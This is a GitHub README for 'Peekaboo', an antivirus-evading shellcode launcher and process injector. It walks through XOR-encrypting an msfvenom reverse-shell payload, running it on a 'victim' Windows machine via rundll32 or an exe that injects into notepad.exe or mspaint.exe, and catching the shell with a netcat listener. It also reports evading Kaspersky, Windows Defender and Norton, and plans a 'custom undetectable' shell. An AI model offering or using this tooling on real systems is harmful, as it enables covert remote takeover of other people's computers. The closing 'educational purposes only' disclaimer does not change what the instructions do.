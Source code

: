 # Peekaboo

Simple undetectable shellcode and code injector launcher example. Inspired by RTO malware development course.

## Main logic

XOR encryption and decryption for functions call and main payload - `msfvenom` reverse shell as example.

## Usage
## 1. DLL
### on attacker machine

check your IP:
```bash
ip a
```

![attacker machine IP](./screenshots/1.png?raw=true)

run python script with flags:
```bash
python3 peekaboo.py -l 192.168.1.64 -p 4444
```

![run python script](./screenshots/2.png?raw=true)

### then on victim machine (windows 10 x64):
run on powershell or cmd promt:
```cmd
rundll32 .\peekaboo.dll, fcPxxUxbQWtknoIZQxehCd
```

![run on victim machine](./screenshots/3.png?raw=true)

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/4.png?raw=true)

example:
![final](./screenshots/5.png?raw=true)

## 2.Injector
### on attacker machine:
check attacker ip:
```bash
ip a
```

![check IP](./screenshots/6.png?raw=true)

run python script on linux (for example process `notepad.exe`):
```bash
python3 peekaboo-inj.py -l 10.9.1.6 -p 4444 -e notepad.exe
```

![encrypting](./screenshots/7.png?raw=true)

compile in VS - windows machine x64:
```cmd
.\compile-inj.bat
```

![compile in attacker windows x64](./screenshots/8.png?raw=true)

### then on victim machine (windows x64):
```cmd
.\peekaboo.exe
```

or click

![run on victim machine](./screenshots/9.png?raw=true)

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/10.png?raw=true)

## 3. UPDATE: Compile injector on kali linux
run python script on linux (for example process `notepad.exe`):
```bash
python3 peekaboo-inj.py -l 10.10.88.57 -p 4444 -e notepad.exe
```

![encrypting and compile](./screenshots/12.png?raw=true)

### then on victim machine (windows 10 x64):
```cmd
.\peekaboo.exe
```

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/13.png?raw=true)

## 4. NT API injector
run python script on linux (for example process `mspaint.exe`):
```bash
python3 peekaboo_nt.py -l 192.168.57.100 -p 4445 -e mspaint.exe -m console
```

![enc and compile nt](./screenshots/15.png?raw=true)

### then on victim machine (windows 10 x64):
```cmd
.\peekaboo.exe
```

![run malware](./screenshots/14.png?raw=true)

## Issues.
Tested on:
1. Attacker machines: Kali linux 2020.1, Windows 10 x64
2. Victim machine: Windows 7 x64, Windows 10 x64
3. Payload: windows x64 reverse shell from msfvenom
4. AV Engines: Kaspersky, Windows Defender, Norton Antivirus Plus

## virus total result:
02 september 2021

![virustotal](./screenshots/11.png?raw=true)

[https://www.virustotal.com/gui/file/c930b9aeab693d36c68e7bcf6353c7515b8fffc8f9a9233e49e90da49ab5d470/detection](https://www.virustotal.com/gui/file/c930b9aeab693d36c68e7bcf6353c7515b8fffc8f9a9233e49e90da49ab5d470/detection)

30 december 2021 (NT API injector)    

![virtustotal 2](./screenshots/16.png?raw=true)    

[https://www.virustotal.com/gui/file/743f50e92c6ef48d6514e0ce2a255165f83afb1ae66deefd68dac50d80748e55/detection](https://www.virustotal.com/gui/file/743f50e92c6ef48d6514e0ce2a255165f83afb1ae66deefd68dac50d80748e55/detection)    

## antiscan.me result:

11 january 2022 (NT API injector)    

![antiscan](./screenshots/antiscan.png?raw=true)    

[https://antiscan.me/scan/new/result?id=rQVfQhoFYgH9](https://antiscan.me/scan/new/result?id=rQVfQhoFYgH9)    

## TODO
- [x] Compile injector in Kali linux
- [x] XOR + AES [aes branch](https://github.com/cocomelonc/peekaboo/tree/aes)
- [ ] Implement custom variations of `GetProcAddress` and `GetModuleHandle` functions
- [ ] Replace msfvenom shell to custom undetectable

## Attention
This tool is a Proof of Concept and is for Educational Purposes Only!!! Author takes no responsibility of any damage you cause

## License
[MIT](https://choosealicense.com/licenses/mit/)
